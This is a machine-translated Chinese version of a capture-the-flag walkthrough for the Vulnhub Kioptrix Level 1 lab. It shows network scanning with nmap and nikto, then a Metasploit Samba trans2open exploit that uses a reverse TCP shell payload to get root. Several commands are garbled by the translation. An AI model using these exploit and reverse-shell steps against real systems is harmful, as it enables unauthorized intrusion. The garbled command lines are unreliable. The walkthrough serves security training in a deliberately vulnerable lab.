# kioptrix:1 级[Vulnhub]演练

> 原文：<https://infosecwriteups.com/kioptrix-level-1-vulnhub-walkthrough-49bcc7306e72?source=collection_archive---------0----------------------->



Kioptrix 是一个引导到根的挑战，你可以从 [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) 下载。您可以下载并安装在您的虚拟机上。



图 1 -Kioptrix 登录

**描述**

> 这个 Kioptrix 虚拟机映像是简单的挑战。游戏的目标是通过任何可能的手段获得根用户权限(除了真正入侵 VM 服务器或玩家)。这些游戏的目的是学习脆弱性评估和利用的基本工具和技术。成功完成挑战的方法不止一种。

**方法论**

*   网络扫描
*   列举
*   剥削
*   获得 root 访问权限

**用过的工具**

*   Nmap
*   尼克托
*   Metasploit

那么，我们开始吧。

打开攻击机器(Kioptrix 1.0 虚拟机)并扫描本地网络以获取受害者的 IP 地址。为此，您可以使用 **netdiscover** 命令。

> sudo 网络探索



图 2-网络发现



图 3-网络发现结果

获得目标的 IP 地址后，我们将枚举目标的开放端口和协议。为此，我使用了 Nmap 主动命令。请考虑您的目标 IP 地址可能与我的不同。

*   这是我的 nmap 结果，但这可能与你的略有不同，因为我已经为我的机器安装了 Nmap 脚本。

> nmap-A 192 . 168 . 1 . 14-开结果. txt

*   开-将输出保存到文件中



图 4-Nmap 扫描



图 5-端口 80 打开



图 6-端口 443 打开

因为端口 80 是开放的，并且正在运行 apache 服务。所以，我试着去看看。但这只是一个测试页面。



图 7-网页

然后我查看了页面源代码以获得更多信息。但是它没有给出太多信息。



图 8-查看页面源代码

然后我在下面命令的帮助下使用了 **nikto** 漏洞扫描。

> nikto-h[http://192 . 168 . 1 . 14](http://hTTP://192.168.1.14)/



图 9 -Nikto 扫描

由于有了上述枚举的帮助，很明显实验室可以利用多个，因此我们不浪费时间，在 Metasploit 的帮助下执行以下命令，并尝试组成目标的虚拟机。

这利用了 Samba 版本 2.2.0 到 2.2.8 中的缓冲区溢出。该特定模块能够利用未设置 noexec 堆栈选项的 x86 Linux 系统上的缺陷。注意:RedHat 的一些旧版本似乎不容易受到攻击，因为它们显然不允许匿名访问 IPC。

我使用 Metasploit 来利用这个漏洞。

要启动 Metasploit DB，我们可以使用以下命令。

> sudo msfdb 初始化
> 
> msfconsole



图 10-启动 msfconsole

然后，我们搜索漏洞并配置利用选项。

> 搜索 trans2open



图 11-搜索模块

> 使用 exploit/linux/samba/trans2open

我们可以使用**选项**命令来查看选项。



图 12-选项

然后配置远程主机(RHOST)、本地主机(lhost)和有效负载。这里我们使用 reverse_tcp shell 来提升特权。

> MSF exploit(Linux/samba/trans 2 open)> set rhost 192 . 168 . 1 . 14
> 
> MSF exploit(Linux/samba/trans 2 open)>设置有效负载 linux/x86/shell_reverse_tcp
> 
> msf 漏洞利用(linux/samba/trans2open)>设置 lhost 192.168.1.15
> 
> msf 漏洞利用(linux/samba/trans2open)>漏洞利用



图 14 —开发

Booom！！这里我们有一个受害者机器的命令外壳，具有根用户权限。

我认为你从这篇文章中学到了一些东西。那么，我们就在下一篇文章里见面吧。黑客快乐！😊